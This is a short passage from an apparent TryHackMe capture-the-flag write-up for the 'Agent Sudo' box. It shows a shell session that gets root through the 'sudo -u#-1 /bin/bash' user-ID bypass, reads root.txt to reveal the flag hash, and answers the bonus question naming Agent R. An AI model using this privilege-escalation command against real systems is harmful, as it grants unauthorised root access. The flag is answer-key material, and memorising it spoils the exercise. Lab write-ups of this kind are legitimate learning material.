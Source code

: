 ```shell
james@agent-sudo:/$ sudo -u#-1 /bin/bash
root@agent-sudo:/# whoami
root
root@agent-sudo:/# cd /root
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R

```

### 3# (Bonus) What is Agent R's name?

This is visible at the bottom on root.txt. `DesKel`.
